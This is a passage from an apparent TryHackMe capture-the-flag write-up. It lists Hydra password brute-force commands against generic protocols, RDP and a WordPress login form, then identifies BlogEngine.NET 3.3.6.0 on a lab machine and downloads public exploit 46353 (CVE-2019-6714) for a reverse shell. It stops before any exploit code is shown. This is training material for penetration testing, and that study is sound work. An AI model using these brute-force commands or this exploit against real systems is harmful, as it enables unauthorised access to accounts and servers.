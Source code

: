 | Command | Description |
|-|-|
| hydra -P <wordlist> -v <ip> <protocol> | Brute force against a protocol of your choice |
| hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol> | You  can use Hydra to bruteforce usernames as well as passwords. It will  loop through every combination in your lists. (-vV = verbose mode,  showing login attempts) |
| hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip> | Attack a Windows Remote Desktop with a password list. |
| hydra  -l <username> -P .<password list> $ip -V http-form-post  '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log  In&testcookie=1:S=Location' | Craft a more specific request for Hydra to brute force. |


## [Task 3] Compromise the machine

*In this task, you will identify and execute a public exploit (from exploit-db.com) to get initial access on this Windows machine!*

*Exploit-Database is a CVE (common vulnerability and exposures) archive of public exploits and corresponding vulnerable software, developed for the use of penetration testers and vulnerability researches. It is owned by Offensive Security (who are responsible for OSCP and Kali)*

### 1 - Now you have logged into the website, are you able to identify the version of the BlogEngine?

Going to : http://10.10.134.121/admin/about.cshtml we can see on the site:

    Your BlogEngine.NET Specification

    Version: 3.3.6.0
    Configuration: Single blog
    Trust level: Unrestricted
    Identity: IIS APPPOOL\Blog
    Blog provider: XmlBlogProvider
    Membership provider: XmlMembershipProvider
    Role provider: XmlRoleProvider

The Version Number is: 3.3.6.0

### 2 - Use the exploit database archive to find an exploit to gain a reverse shell on this system. What is the CVE?

https://www.exploit-db.com/exploits/46353

CVE : CVE-2019-6714

### 3 - Using the public exploit, gain initial access to the server. Who is the webserver running as?

We first download the exploit:

    ┌─[user@parrot]─[~/labs/tryhackme/hackpark]
    └──╼ $wget https://www.exploit-db.com/raw/46353

Edit it:
